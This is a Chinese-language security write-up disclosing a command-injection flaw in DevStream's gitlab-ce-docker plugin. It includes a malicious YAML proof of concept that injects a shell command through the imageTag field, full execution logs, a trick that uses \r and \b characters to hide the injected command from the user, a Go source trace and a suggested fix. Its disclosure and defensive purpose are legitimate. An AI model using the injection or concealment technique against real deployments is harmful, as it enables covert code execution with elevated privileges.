

# 关于 Devops toolchains - DevStream 的恶意配置文件命令执行

## POC/EXP

### POC yaml 

```yaml
---
# core config
varFile: "" # If not empty, use the specified external variables config file
toolFile: "" # If not empty, use the specified external tools config file
pluginDir: "" # If empty, use the default value: ~/.devstream/plugins, or use -d flag to specify a directory
state: # state config, backend can be local, s3 or k8s
  backend: local
  options:
    stateFile: devstream.state
---
# tools config
tools:
  # name of the tool
  - name: gitlab-ce-docker
    # id of the tool instance
    instanceID: default
    # format: name.instanceID; If specified, dtm will make sure the dependency is applied first before handling this tool.
    dependsOn: [ ]
    # options for the plugin
    options:
      # hostname for running docker. (default: gitlab.example.com)
      hostname: gitlab.example.com
      # pointing to the directory where the configuration, logs, and data files will reside.
      # (default: /srv/gitlab)
      # 1. it should be a absolute path
      # 2. once the tool is installed, it can't be changed
      gitlabHome: /tmp
      # ssh port exposed in the host machine. (default: 22)
      sshPort: 22
      # http port exposed in the host machine. (default: 80)
      httpPort: 80
      # https port exposed in the host machine.
      # (default: 443)
      # todo: support https, reference: https://docs.gitlab.com/omnibus/settings/nginx.html#enable-https
      httpsPort: 443
      # whether to delete the gitlabHome directory when the tool is removed. (default: false)
      rmDataAfterDelete: false
      # gitlab-ce tag. (default: "rc")
      # imageTag: "rc"
      imageTag: "rc;open /System/Applications/Calculator.app #"

```

这份文件是参考并复用了对方官方网站的 启动脚本的 QuickStart.yaml 以及[存在漏洞的 gitlab ce docker 插件的文档](https://docs.devstream.io/en/latest/plugins/gitlab-ce-docker/)

### 效果

使用 

```shell
dtm init -f evil_yaml_name.yaml # 这里是为了 download 插件
dtm apply -f evil_yaml_name.yaml # --debug 只是为了开 debug 模式
```

先进行 init 然后 对其进行 apply 命令的执行。

可以看到

```
2022-11-16 18:51:24 ℹ [INFO]  Log level is: debug.
2022-11-16 18:51:24 ℹ [INFO]  Apply started.
2022-11-16 18:51:24 λ [DEBUG]  Original config: 
---
# core config
varFile: "" # If not empty, use the specified external variables config file
toolFile: "" # If not empty, use the specified external tools config file
pluginDir: "" # If empty, use the default value: ~/.devstream/plugins, or use -d flag to specify a directory
state: # state config, backend can be local, s3 or k8s
  backend: local
  options:
    stateFile: devstream.state
---
# tools config
tools:
  # name of the tool
  - name: gitlab-ce-docker
    # id of the tool instance
    instanceID: default
    # format: name.instanceID; If specified, dtm will make sure the dependency is applied first before handling this tool.
    dependsOn: [ ]
    # options for the plugin
    options:
      # hostname for running docker. (default: gitlab.example.com)
      hostname: gitlab.example.com
      # pointing to the directory where the configuration, logs, and data files will reside.
      # (default: /srv/gitlab)
      # 1. it should be a absolute path
      # 2. once the tool is installed, it can't be changed
      gitlabHome: /tmp
      # ssh port exposed in the host machine. (default: 22)
      sshPort: 22
      # http port exposed in the host machine. (default: 80)
      httpPort: 80
      # https port exposed in the host machine.
      # (default: 443)
      # todo: support https, reference: https://docs.gitlab.com/omnibus/settings/nginx.html#enable-https
      httpsPort: 443
      # whether to delete the gitlabHome directory when the tool is removed. (default: false)
      rmDataAfterDelete: false
      # gitlab-ce tag. (default: "rc")
      # imageTag: "rc"
      imageTag: "rc;open /System/Applications/Calculator.app #"


2022-11-16 18:51:24 ℹ [INFO]  Using dir </Users/esonhugh/.devstream/plugins> to store plugins.
2022-11-16 18:51:24 λ [DEBUG]  The global manager m is not initialized.
2022-11-16 18:51:24 ℹ [INFO]  Using local backend. State file: devstream.state.
2022-11-16 18:51:24 λ [DEBUG]  Got a state from the backend: gitlab-ce-docker_default -> {gitlab-ce-docker default [] map[gitlabHome:/tmp hostname:gitlab.example.com httpPort:80 httpsPort:443 imageTag:rc;open /System/Applications/Calculator.app # rmDataAfterDelete:false sshPort:22] map[ContainerRunning:true Hostname:gitlab.example.com PortPublishes:[map[containerport:22 hostport:22] map[containerport:443 hostport:443] map[containerport:80 hostport:80]] Volumes:[/tmp/config /tmp/data /tmp/logs]]}.
2022-11-16 18:51:24 λ [DEBUG]  isForce:false
2022-11-16 18:51:24 λ [DEBUG]  TOOL gitlab-ce-docker.default dependency already solved

2022-11-16 18:51:24 λ [DEBUG]  BATCH: [{gitlab-ce-docker default [] map[gitlabHome:/tmp hostname:gitlab.example.com httpPort:80 httpsPort:443 imageTag:rc;open /System/Applications/Calculator.app # rmDataAfterDelete:false sshPort:22]}]
2022-11-16 18:51:24 λ [DEBUG]  Start to execute PreExecuteOperations...
2022-11-16 18:51:24 λ [DEBUG]  Options: {gitlab/gitlab-ce rc;open /System/Applications/Calculator.app # gitlab 0x1400033a188 [--shm-size 256m] gitlab.example.com [{22 22} {80 80} {443 443}] [{/tmp/config /etc/gitlab} {/tmp/data /var/opt/gitlab} {/tmp/logs /var/log/gitlab}] true}.
2022-11-16 18:51:24 λ [DEBUG]  Start to execute ExecuteOperations...
2022-11-16 18:51:24 λ [DEBUG]  Start to execute GetStateOperation...
2022-11-16 18:51:24 λ [DEBUG]  Return map: map[]
2022-11-16 18:51:24 λ [DEBUG]    map[string]any{
-       "ContainerRunning": bool(true),
-       "Hostname":         string("gitlab.example.com"),
-       "PortPublishes": []any{
-               map[string]any{"containerport": int(22), "hostport": int(22)},
-               map[string]any{"containerport": int(443), "hostport": int(443)},
-               map[string]any{"containerport": int(80), "hostport": int(80)},
-       },
-       "Volumes": []any{string("/tmp/config"), string("/tmp/data"), string("/tmp/logs")},
  }

2022-11-16 18:51:24 λ [DEBUG]  Changes for the plan:
2022-11-16 18:51:24 λ [DEBUG]  Change - 1/1 -> 
{
  ActionName: Update,
  Tool: {Name: gitlab-ce-docker, InstanceID: default}}
}
2022-11-16 18:51:24 ℹ [INFO]  Tool (gitlab-ce-docker/default) drifted from the state, will be updated.
Continue? [y/n]
Enter a value (Default is n): y

2022-11-16 18:57:10 ℹ [INFO]  Start executing the plan.
2022-11-16 18:57:10 ℹ [INFO]  Changes count: 1.
2022-11-16 18:57:10 λ [DEBUG]  TOOL gitlab-ce-docker.default dependency already solved

2022-11-16 18:57:10 λ [DEBUG]  BATCH: [{gitlab-ce-docker default [] map[gitlabHome:/tmp hostname:gitlab.example.com httpPort:80 httpsPort:443 imageTag:rc;open /System/Applications/Calculator.app # rmDataAfterDelete:false sshPort:22]}]
2022-11-16 18:57:10 ℹ [INFO]  -------------------- [  Processing progress: 1/1.  ] --------------------
2022-11-16 18:57:10 ℹ [INFO]  Processing: (gitlab-ce-docker/default) -> Update ...
2022-11-16 18:57:10 λ [DEBUG]  Tool's raw changes are: map[gitlabHome:/tmp hostname:gitlab.example.com httpPort:80 httpsPort:443 imageTag:rc;open /System/Applications/Calculator.app # rmDataAfterDelete:false sshPort:22].
2022-11-16 18:57:10 λ [DEBUG]  Start to execute PreExecuteOperations...
2022-11-16 18:57:10 λ [DEBUG]  Options: {gitlab/gitlab-ce rc;open /System/Applications/Calculator.app # gitlab 0x140002f1ba8 [--shm-size 256m] gitlab.example.com [{22 22} {80 80} {443 443}] [{/tmp/config /etc/gitlab} {/tmp/data /var/opt/gitlab} {/tmp/logs /var/log/gitlab}] true}.
2022-11-16 18:57:10 λ [DEBUG]  Start to execute ExecuteOperations...
2022-11-16 18:57:11 ℹ [INFO]  Cmd: docker inspect gitlab.
2022-11-16 18:57:11 ℹ [INFO]  Removing container gitlab ...
2022-11-16 18:57:11 ℹ [INFO]  Cmd: docker rm gitlab.
Stdout: gitlab
2022-11-16 18:57:11 ℹ [INFO]  Cmd: docker inspect gitlab.
2022-11-16 18:57:11 ℹ [INFO]  Cmd: docker image ls gitlab/gitlab-ce:rc;open /System/Applications/Calculator.app # -q.
2022-11-16 18:57:11 ℹ [INFO]  Running container as the name <gitlab>
2022-11-16 18:57:11 λ [DEBUG]  Docker run command: docker run --detach --hostname gitlab.example.com --publish 22:22 --publish 80:80 --publish 443:443 --name gitlab --restart always --volume /tmp/config:/etc/gitlab --volume /tmp/data:/var/opt/gitlab --volume /tmp/logs:/var/log/gitlab gitlab/gitlab-ce:rc;open /System/Applications/Calculator.app #
2022-11-16 18:57:11 ℹ [INFO]  Cmd: docker run --detach --hostname gitlab.example.com --publish 22:22 --publish 80:80 --publish 443:443 --name gitlab --restart always --volume /tmp/config:/etc/gitlab --volume /tmp/data:/var/opt/gitlab --volume /tmp/logs:/var/log/gitlab gitlab/gitlab-ce:rc;open /System/Applications/Calculator.app #.
Stderr: WARNING: The requested image's platform (linux/amd64) does not match the detected host platform (linux/arm64/v8) and no specific platform was requested
Stdout: 12ea970317bc7564b13615fae05330a791eee69dc713230963bc0517b5381012
2022-11-16 18:57:11 ℹ [INFO]  Cmd: docker inspect --format='{{json .Mounts}}' gitlab.
2022-11-16 18:57:12 λ [DEBUG]  Container gitlab mounts: [{bind /tmp/config /etc/gitlab  true rprivate} {bind /tmp/data /var/opt/gitlab  true rprivate} {bind /tmp/logs /var/log/gitlab  true rprivate}]
2022-11-16 18:57:12 ℹ [INFO]  GitLab access URL: http://gitlab.example.com:80
2022-11-16 18:57:12 ℹ [INFO]  GitLab initial root password: execute the command -> docker exec -it gitlab grep 'Password:' /etc/gitlab/initial_root_password
2022-11-16 18:57:12 λ [DEBUG]  Start to execute GetStateOperation...
2022-11-16 18:57:12 ℹ [INFO]  Cmd: docker inspect --format='{{json .Mounts}}' gitlab.
2022-11-16 18:57:12 λ [DEBUG]  Container gitlab mounts: [{bind /tmp/config /etc/gitlab  true rprivate} {bind /tmp/data /var/opt/gitlab  true rprivate} {bind /tmp/logs /var/log/gitlab  true rprivate}]
2022-11-16 18:57:12 ℹ [INFO]  Cmd: docker inspect --format='{{.Config.Hostname}}' gitlab.
2022-11-16 18:57:12 ℹ [INFO]  Cmd: docker inspect --format='{{range $p,$conf := .NetworkSettings.Ports}}{{$p}}->{{(index $conf 0).HostPort}}{{println}}{{end}}' gitlab.
2022-11-16 18:57:12 λ [DEBUG]  Container gitlab port bindings: [22/tcp->22 443/tcp->443 80/tcp->80]
2022-11-16 18:57:12 λ [DEBUG]  Return map: map[ContainerRunning:true Hostname:gitlab.example.com PortPublishes:[{22 22} {443 443} {80 80}] Volumes:[/tmp/config /tmp/data /tmp/logs]]
2022-11-16 18:57:12 λ [DEBUG]  Start -> StatesMap now is:
gitlab-ce-docker_default:
  name: gitlab-ce-docker
  instanceid: default
  dependson: []
  options:
    gitlabHome: /tmp
    hostname: gitlab.example.com
    httpPort: 80
    httpsPort: 443
    imageTag: 'rc;open /System/Applications/Calculator.app #'
    rmDataAfterDelete: false
    sshPort: 22
  resource:
    ContainerRunning: true
    Hostname: gitlab.example.com
    PortPublishes:
      - containerport: 22
        hostport: 22
      - containerport: 443
        hostport: 443
      - containerport: 80
        hostport: 80
    Volumes:
      - /tmp/config
      - /tmp/data
      - /tmp/logs

2022-11-16 18:57:12 ✔ [SUCCESS]  Tool (gitlab-ce-docker/default) Update done.
2022-11-16 18:57:12 λ [DEBUG]  End -> StatesMap now is:
gitlab-ce-docker_default:
  name: gitlab-ce-docker
  instanceid: default
  dependson: []
  options:
    gitlabHome: /tmp
    hostname: gitlab.example.com
    httpPort: 80
    httpsPort: 443
    imageTag: 'rc;open /System/Applications/Calculator.app #'
    rmDataAfterDelete: false
    sshPort: 22
  resource:
    ContainerRunning: true
    Hostname: gitlab.example.com
    PortPublishes:
      - hostport: 22
        containerport: 22
      - hostport: 443
        containerport: 443
      - hostport: 80
        containerport: 80
    Volumes:
      - /tmp/config
      - /tmp/data
      - /tmp/logs

2022-11-16 18:57:12 ℹ [INFO]  -------------------- [  Processing done.  ] --------------------
2022-11-16 18:57:12 ✔ [SUCCESS]  All plugins applied successfully.
2022-11-16 18:57:12 ✔ [SUCCESS]  Apply finished.
```

执行完毕后会发现 计算器会被弹出 并且 其实会执行多次指令 这里有一次 continue 需要使用 y 来确认 但是除非开启 debug 模式并且对内容进行审计 不然根本不会发现被注入了一段恶意的 Payload 当受害者盲目的 输入 y 之后 接下来就会执行我们的恶意指令并且运行 docker 

> 如果进行计数，在执行 apply 后会执行两次 命令 （docker gitlab 的容器没有启动的时候）
>
> init 只会对插件进行下载

### 特殊技巧

由于对于这些指令的 print 的参数，其实是我们可控的 。所以，我们可以通过 `\r\b` 之类的字符（也可以强行注入 ascii 编码）来 rewind 回到行首或者退格，进而达到对命令执行掩盖和去除， 用户可能会略感到异常但也只是异常。

尤其是 debug 模式没有开启的时候，用户看到命令的同时基本就已经被执行了。

同时我们还可以使用 `#` 来进行 shell 的注释，从而消除上述特殊字符被 shell 解释执行导致报错的可能。

### 危害与影响

**首先配置文件本身并没有被项目做权限检查（例如 ssh 下 id_rsa 权限）存在可以被其他平级乃至是低权限用户修改的可能。因此提供了一种从文本写入到命令执行的攻击向量。**

其次，项目多处使用了 `docker` `kubectl` 。这类需要 root 或者 docker 组的权限的用户进行执行。**因此往往 dtm 是被高权限使用的。**

由于项目的目的是构造整体的生产环境工具链，也同样聚集了多数最佳实践的配置，同时又支持环境变量或者其他文件读取配置，**所以用户可能并不会对配置文件本身亲力亲为。**

也存在一种场景，假设**用户配置文件可以通过远程分发和维护**的时候，例如 nacos 统一配置全公司的技术栈和工具链，通过这种配置文件的污染，（能够进行污染的时候，部署的服务和CICD服务可能均已遭到不测），甚至可以导致员工的办公区电脑被入侵。

当然命令这里不只是 Open 计算器，由于ImageTag中没有多数的过滤，所以我们几乎可以做任何操作，包括但不限于下载木马文件进行执行，并且由于教程中含有通过环境变量的值的方法传入各种 Token 所以也存在使用 curl 或者其他方法向黑客的恶意 Webhook 服务器发送带有生产或是测试环境的相关的配置从而造成更大的危害。

> 因此，我私认为这是一枚具有欺骗性质和提权性质的漏洞或者是一种 LOLBINS。

## 小小的分析一波

### 核心位置

下载下来代码 goland 启动！

直接搜 exec 发现核心的漏洞点 [/pkg/util/docker/dockersh/exec.go](https://github.com/devstream-io/devstream/blob/03decb1084a84aa2fc411c5a50ad8efd46e147b1/pkg/util/docker/dockersh/exec.go#L15)

这里包装出了 ExecInSystem 与  ExecInSystemWithParams 两个函数

其核心问题在于该段落

```go
func ExecInSystem(execPath string, fullCommand string, logsBuffer *bytes.Buffer, print bool) error {
	c := "-c"
	cmdName := "sh"

	log.Infof("Cmd: %s.", fullCommand)

	cmd := exec.Command(cmdName, c, fullCommand)
	cmd.Dir = execPath
	// ...
	}
```

在 Go 程中通过 `sh -c` 启动并且执行命令，而后续执行的指令部分的内容，只要有一个小部分被攻击者控制就可以通过各种命令注入的风骚方法，进行绕过和欺骗，因此这也是 Go 产生命令注入的核心原因。

>  exec.Command 本身不会导致非常严重的安全问题因为它具有防范注入的 args 数组传惨，并且启动二进制处是不可注入命令和参数，只允许二进制文件名。
>
> 但是如若我们可以完全控制第一个参数，也就是启动的二进制名称为其他的诸如 Python Find 等，我们依旧可以通过后续的内容引入代码或者命令的注入。
>
> 例如 `python -c "import os;os.system('ls -al')"` 或是 `find -exec ls -al \;`

这一点也是我在上一个 issue 反复耐心解释的原因。But They don't give a fuck.

通过跟踪发现调用关系


这里的 ExecInSystemWithParams 函数在文件 [/pkg/utils/docker/dockersh/compose.go](https://github.com/devstream-io/devstream/blob/03decb1084a84aa2fc411c5a50ad8efd46e147b1/pkg/util/docker/dockersh/compose.go#L9) 与 harbordocker 插件中的使用传参基本都不可控制 这里丢弃



### 拼接过程

我们可以发现 [/pkg/util/docker/dockersh/operator.go](https://github.com/devstream-io/devstream/blob/03decb1084a84aa2fc411c5a50ad8efd46e147b1/pkg/util/docker/dockersh/operator.go#L19) 这里引用了 ExecInSystem 函数相当的多，我们耐心跟踪过去，进行逐一排查。

[/pkg/util/docker/dockersh/operator.go](https://github.com/devstream-io/devstream/blob/03decb1084a84aa2fc411c5a50ad8efd46e147b1/pkg/util/docker/dockersh/operator.go#L19) 中的几个重要函数

```go
// 传入参数为 imageNameWithTag
func (op *ShellOperator) ImageIfExist(imageNameWithTag string) bool {
	// eg. docker image ls gitlab/gitlab-ce:rc -q
	// output: image id (if exist)
	cmdString := fmt.Sprintf("docker image ls %v -q", imageNameWithTag) // 这里拼接加入了 imageNameWithTag 
	outputBuffer := &bytes.Buffer{}
	err := ExecInSystem(".", cmdString, outputBuffer, false) // 执行
	if err != nil {
		return false
	}

	return strings.TrimSpace(outputBuffer.String()) != ""
}


func (op *ShellOperator) ImagePull(imageNameWithTag string) error {
  // 同上
	err := ExecInSystemWithParams(".", []string{"docker", "pull", imageNameWithTag}, nil, true)
	return err
}


func (op *ShellOperator) ImageRemove(imageNameWithTag string) error {
	log.Infof("Removing image %v ...", imageNameWithTag)

	cmdString := fmt.Sprintf("docker rmi %s", imageNameWithTag) // 也是加入 string 执行
	err := ExecInSystem(".", cmdString, nil, true)

	return err
}


func (op *ShellOperator) ContainerIfExist(containerName string) bool {
	cmdString := fmt.Sprintf("docker inspect %s", containerName)
	outputBuffer := &bytes.Buffer{}
	err := ExecInSystem(".", cmdString, outputBuffer, false) // 这里也是拼接传入
	if err != nil {
		return false
	}

	if strings.Contains("No such object", outputBuffer.String()) {
		return false
	}

	return true
}

func (op *ShellOperator) ContainerRun(opts *docker.RunOptions) error {
	// build the command
	cmdString, err := BuildContainerRunCommand(opts)
  // 这里在 build commands 的时候传入了参数 生成了 命令
	if err != nil {
		return err
	}
	log.Debugf("Docker run command: %s", cmdString) // Debug 输出 只要默认没有 --debug 就不会有

	// run the command
	err = ExecInSystem(".", cmdString, nil, true)  // 执行
	if err != nil {
		return fmt.Errorf("docker run failed: %v", err)
	}

	// check if the container is started successfully
	if ok := op.ContainerIfRunning(opts.ContainerName); !ok {
		return fmt.Errorf("failed to run container")
	}

	return nil
}

// BuildContainerRunCommand builds the docker run command string from the given options and additional params
func BuildContainerRunCommand(opts *docker.RunOptions) (string, error) {
	if err := opts.Validate(); err != nil {
		return "", err
	}

	cmdBuilder := strings.Builder{}
	cmdBuilder.WriteString("docker run --detach ")
	if opts.Hostname != "" {
		cmdBuilder.WriteString(fmt.Sprintf("--hostname %s ", opts.Hostname)) // 这里引入了 Hostname 或许是注入点
	}
	for _, publish := range opts.PortPublishes {
		cmdBuilder.WriteString(fmt.Sprintf("--publish %d:%d ", publish.HostPort, publish.ContainerPort)) // Port 写死为 int uint 类型 注入基本不可能
	}
	cmdBuilder.WriteString(fmt.Sprintf("--name %s ", opts.ContainerName)) // 这里引入了 ContainerName 
	if opts.RestartAlways {
		cmdBuilder.WriteString("--restart always ")
	}
	for _, volume := range opts.Volumes {
		cmdBuilder.WriteString(fmt.Sprintf("--volume %s:%s ", volume.HostPath, volume.ContainerPath)) // 这里 HostPath 和 ContainerPath 参数被引入
	}
	for _, param := range opts.RunParams {
		cmdBuilder.WriteString(param + " ") // 继续拼接 opts.RunParams
	}
	cmdBuilder.WriteString(docker.CombineImageNameAndTag(opts.ImageName, opts.ImageTag))

	return cmdBuilder.String(), nil
}

```

如上我们可以发现我们只要想尽办法 污染到 opts 中的几个 string 类型参数 和 imageNameWithTag string 参数就可以了

#### ImageNameWithTag

无论是  ImageIfExist 还是  ImagePull 函数中

我们唯一的引用了该函数的地方为 文件 [/internal/pkg/plugininstaller/docker/installer.go](https://github.com/devstream-io/devstream/blob/03decb1084a84aa2fc411c5a50ad8efd46e147b1/internal/pkg/plugininstaller/docker/installer.go#L25)

```go
// Install runs the docker container
func Install(options configmanager.RawOptions) error {
	opts, err := NewOptions(options)
	if err != nil {
		return err
	}

	// 1. pull the image if it not exists
	if !op.ImageIfExist(opts.GetImageNameWithTag()) {
		if err := op.ImagePull(opts.GetImageNameWithTag()); err != nil {
			log.Debugf("Failed to pull the image: %s.", err)
			return err
		}
	}
```

其传入的参数都为 opts.GetImageNameWithTag() 函数 无所谓继续更下去

#### opts

接下来我们关注 opts 所在的文件 [/pkg/util/docker/option.go](https://github.com/devstream-io/devstream/blob/03decb1084a84aa2fc411c5a50ad8efd46e147b1/pkg/util/docker/option.go#L12)

上面两条可能引入恶意参数的地方都经过了一系列波折后统一的来到了 这里。

```go
// RunOptions is used to pass options to ContainerRunWithOptions
type (
	RunOptions struct {
    ImageName     string  // 可能注入点 经由 ImageName 与 ImageTag 合并拼接 GetImageNameWithTag() 或者 func CombineImageNameAndTag(imageName, tag string) 
		ImageTag      string  // 可能注入点 同上
		Hostname      string 	// 可能注入点 经由 BuildContainerRunCommand 拼接注入
		ContainerName string  // 可能注入点 同上
		PortPublishes []PortPublish
		Volumes       Volumes
		RestartAlways bool
		RunParams     []string // 可能注入点 同上
	}


	Volume struct {
		HostPath      string // 可能注入点 同上
		ContainerPath string // 可能注入点 同上
	}

	Volumes []Volume


	PortPublish struct {
		HostPort      uint
		ContainerPort uint
	}
)
```

可以看出对方这里几乎 string 类型参数的地方都毫无过滤的拼接进入了参数

```go
// https://github.com/devstream-io/devstream/blob/03decb1084a84aa2fc411c5a50ad8efd46e147b1/internal/pkg/plugininstaller/docker/option.go#LL36
func (opts *Options) GetImageNameWithTag() string {
	return fmt.Sprintf("%s:%s", opts.ImageName, opts.ImageTag)
}
```

这里是一种拼接

#### 探索传入参数的途径

命令行就没什么好说的了 对方设计的样子就像 kubectl 一样使用 apply 进行部署 

只是很可惜对方不能通过请求远程 url 的方式 apply 这使得无法更大化危害。

很显然唯一引入这些不可控变量的地方是 yaml 配置文件 

我们跟踪到文件 [/internal/pkg/plugin/gitlabcedocker/options.go](https://github.com/devstream-io/devstream/blob/3d80a0d7614864d35f61c7cefacd714f281e4204/internal/pkg/plugin/gitlabcedocker/options.go#L14)

这里抽象每个模块的 options

```go
// Options is the struct for configurations of the gitlab-ce-docker plugin.
type Options struct {
	Hostname string `validate:"hostname" mapstructure:"hostname"` // 存在 hostname validate 过滤 基本排除
	// GitLab home directory, we assume the path set by user is always correct.
	GitLabHome        string `mapstructure:"gitlabHome"` // 可能注入点
	SSHPort           uint   `mapstructure:"sshPort"`
	HTTPPort          uint   `mapstructure:"httpPort"`
	HTTPSPort         uint   `mapstructure:"httpsPort"` 
	RmDataAfterDelete *bool  `mapstructure:"rmDataAfterDelete"` // 不可能注入
	ImageTag          string `mapstructure:"imageTag"` // 可能注入点
}
```

可以看到 这里 mapstructure 中对应的多个参数与标准的插件配置文件中使用的无异

大概可以猜到使用是的 这些参数 

接下来搜索 返回 这些 Options 类型的地方

我们可以找到如下函数用于创建 Options 在 opts 文件中正下方

```go
func buildDockerOptions(opts *Options) *dockerInstaller.Options {
	portPublishes := []docker.PortPublish{
		{HostPort: opts.SSHPort, ContainerPort: 22},
		{HostPort: opts.HTTPPort, ContainerPort: 80},
		{HostPort: opts.HTTPSPort, ContainerPort: 443},
	}
  
	dockerOpts := &dockerInstaller.Options{
		RmDataAfterDelete: opts.RmDataAfterDelete, // 这里是传进来 options 引入的 但是是 bool 排除
		ImageName:         gitlabImageName, // 写死的常量 被排除
		ImageTag:          opts.ImageTag, // 传入的 Options 
		Hostname:          opts.Hostname, // 传入的 Options // 被排除
		ContainerName:     gitlabContainerName, // 写死的常量 被排除
		RestartAlways:     true,
		Volumes:           buildDockerVolumes(opts), // 几乎也是写死的
		RunParams:         []string{dockerRunShmSizeParam}, // 只有一个而且是常量
		PortPublishes:     portPublishes, 
	}

	return dockerOpts
}

func buildDockerVolumes(opts *Options) docker.Volumes {
	volumes := []docker.Volume{
		{HostPath: filepath.Join(opts.GitLabHome, "config"), ContainerPath: "/etc/gitlab"},
		{HostPath: filepath.Join(opts.GitLabHome, "data"), ContainerPath: "/var/opt/gitlab"},
		{HostPath: filepath.Join(opts.GitLabHome, "logs"), ContainerPath: "/var/log/gitlab"},
	}

	return volumes
}
```

如此一圈下来 我们发现有且仅有 ImageTag 处是极其有可能存在命令注入的

其他部分均为框架和对应的接口抽象，理论上不存在过滤的可能。具体的框架可以参照 https://docs.devstream.io/en/release-0.9/development/architecture.zh/ 

> 非常遗憾的是 对方整体框架抽象的地方非常多 而且使用了 .so Go 动态库作为分发。
>
> 又没有调试文档，导致整体跟踪流程和代码的执行流非常非常的困难。

于是尝试修改官方所使用的 yaml imageTag 处修改 注入命令后 执行 apply 就立即出现了命令所产生的效果

### 再次检查

当配置文件为其他的组其他的成员 发现并没有检查。那么整个利用的困难性就仅仅基于操作系统的目录权限管理和各种  ACL 了 以及如何欺骗对方使用恶意的配置文件了。

> 如果支持 http 拉取远程 yaml 进行执行 或者 nacos 配置分发等，那么利用方式就更加简单了。

## 推荐的修复方案

可以使用 go client for docker engine 实现。

如果非要使用 exec.Command 可以将第一位二进制参数设置为 docker 而非 sh -c 便会大大降低被注入额外命令的风险

## 跟踪信息

1. 该插件的变更于 [第692号拉取请求](https://github.com/devstream-io/devstream/pull/692/commits) 中在 2022 06 21 合并为主分支。并于 06 22，在版本 [0.7.0](https://github.com/devstream-io/devstream/releases/tag/v0.7.0) 中发半 至今 0.9.1 版本中发现。